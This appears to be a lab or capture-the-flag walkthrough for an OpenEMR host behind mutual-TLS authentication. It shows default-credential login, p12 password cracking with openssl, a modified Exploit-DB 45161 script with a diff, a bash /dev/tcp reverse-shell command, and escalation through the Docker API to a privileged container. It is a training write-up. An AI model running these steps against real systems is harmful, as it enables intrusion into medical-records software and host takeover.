

# Acreage

## Enumeration

The initial enumeration phase is to begin by evaluating the system. One main port should be visible to user. Web port which is running on port 443 though secured by https.

Upon visiting the verb port this directory a web page for an employer portal is identified.

Upon scanning this with the `dirb` or `gobuster` the folder under the path `private` is identified. This directory has notes section. It is protected by http based auth.

This is a directory intended for intranet only applications though it seems mis-configured. By attempting to visit the private admin notes area we find the site is protected by HTTP based authentication.

Through some inspection we see that based on the default admin page it states that OpenEMR credentials should work. After trying to look up the default credentials and attempting to use them we find that authentication is successful. These credentials seem to be `admin:admin`.

We find a notes area of which there a few files of which after further investigation we find to be x509 certificate files.


We also attempt to visit the OpenEMR page, but we find that it is blocked by what seems to be x509 verification requirements.

`You don't have permission to access this resource.Reason: Cannot perform Post-Handshake Authentication.`

Since we have certificates that we can make use of it is possible to attempt various techniques to further attempt to use the web application.

We brute force the password to the `p12` file in order to perform operation on the certs and keys stored within it.

There is not much out there on the process though the following tool should work. It might also be possible to do this using a quick bash script:

[p12Cracker](https://github.com/allyomalley/p12Cracker)


It is also possible to write a script to perform the command which would be the following: `openssl pkcs12 -in dockerdev.p12  -passin pass:admin`


There should be an option to parse the private key or public key. 

Once we have the password we proceed to unpack the `p12`  certs and keys using the following technique: `openssl pkcs12 -in dockerdev.p12 -out dockerdev.pem -nodes -nocerts -passin pass:admin` & `openssl pkcs12 -in dockerdev.p12 -out dockerdev.crt -nokeys -passin pass:admin`

Using curl, it is possible to test the functionality of the service. We do this by running the following command while ensuring we specify the correct certificates and keys. 

`curl --cacert ca-signing-chain.pem --cert dockerdev.crt --cert-type PEM --key dockerdev.pem --key-type PEM https://192.168.56.10/openemr-5_0_1_3 -v`


If this was to be run locally we would be required to specify a bundled ca certificate containing our CA and web Intermediate CA. They can be downloaded from the private notes section on the site.

It is also possible to use the PKCS12 format to authenticate to the system via a browser. Though this is not a hard requirement. The main thing at this stage is to ensure we have valid keys and certificates. 

This is done by importing the p12 file into the firefox browser via preferences, certificates and accessing the certificate manager.


## Exploitation

Once we have reached the UI we can evaluate the application further. We begin by login in using the default credentials. These are `admin:admin` once logged in and the system version has been verified. We proceed to looking and downloading our exploit's at the following location. Though their multiple ways to verify the version.

https://www.exploit-db.com/exploits/45161

What is required is to modify the exploit so that the requests package can authenticate and pass data to the web application.

The script can be edited by using the following code and the downloaded certificates from the enumeration phase.

```py
#https://stackoverflow.com/questions/63700904/python-code-for-sending-requests-with-certificate-private-encrypted-key-and-pas
#https://security.stackexchange.com/questions/59136/can-i-add-a-password-to-an-existing-private-key
#
# Since request package does not support encryption. The method or thing to do is to remove that particular encryption.

import requests

cert_file_path = "<Location of exported certificate and private key>"
key_file_path = "<Location of exported certificate and private key>"

url = "https://192.168.56.10/openemr-5_0_1_3/"
cert = (cert_file_path, key_file_path)
r = requests.get(url, cert=cert, verify='<Location of CA Signing cert>/ca-signing-chain.pem')
```

Once the sections in the script are amended which should only be two post and 1 requests. Burp suite can also be used to further evaluate things in this stage of the process.


The script editing section should be straight forwards from this point onwards.

Add the following variable: `cert = (cert_file_path, key_file_path)`

Then append that to every request via the cert variable: `python3 45161.py http://192.168.56.10/openemr-5_0_1_3 -u admin -p admin -c 'bash -i >& /dev/tcp/you-local-system/4444 0>&1'`

This will spawn a netcat shell so ensure you have a listener running before attempting to run the script. When the netcat listener receves a shell. The user is expected to perform enumeration of the system.

This is the diff of the original exploit compared to the modified version which gives us a net cat listener on the remote system.

```shell
> cert_file_path = "dockerdev.crt"
> key_file_path = "dockerdev.pem"
> 
> cert = (cert_file_path, key_file_path)
> 
66c71
<     r = s.post(args.host + "/interface/main/main_screen.php?auth=login&site=default", data=login)
---
>     r = s.post(args.host + "/interface/main/main_screen.php?auth=login&site=default", data=login, cert=cert, verify="ca-signing-chain.pem")
136c141
<     _cmd = "|| echo " + base64.b64encode(args.cmd) + "|base64 -d|bash"
---
>     _cmd = "|| echo " + base64.b64encode(args.cmd.encode("utf")).decode("utf") + "|base64 -d|bash"
140,141c145,146
<     s.post(args.host + "/interface/super/edit_globals.php", data=p)
<     sp = s.get(args.host + "/interface/main/daemon_frame.php") # M4tt D4em0n w0z h3r3 ;PpPpp
---
>     s.post(args.host + "/interface/super/edit_globals.php", data=p, cert=cert, verify="ca-signing-chain.pem")
>     sp = s.get(args.host + "/interface/main/daemon_frame.php", cert=cert, verify="ca-signing-chain.pem") # M4tt D4em0n w0z h3r3 ;PpPpp
```


## Escalation

The main thing in this instance is to identify that docker is running on the system. There is a daemon also listening with the associated port. Attempting to curl the port would show that it is protected by mTLS.


The user should find various certs and keys on the system on the remote system upon inspection. This is CA-key with private but weak password which should be easily bruteforced from a shell. 


The docker key is present though it is encrypted. It is possible to decrypt it using the previous found password of `admin`.

`openssl rsa -in /etc/dite_pki/certs/dockerdev.key -out your.open.key -passin pass:admin`

The user also has the option to transfer their previously cracked key and skip this step of cracking the key on the system.

Once we have this process in motion it is then possible to perform the following task which is to authicate to the docker daemon service as shown in the following image using mTLS.


We can the use this in association with the run command in order to run a privilege container. This container can be mounted to alternate paths or the user to retrieve the proof `.txt` file. 

Authentication in this instance occurs via the HTTPS based docker API service. There is also a container that can be used on the host system.

```
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
ubuntu       latest    ba6acccedd29   8 weeks ago   72.8MB
```



 

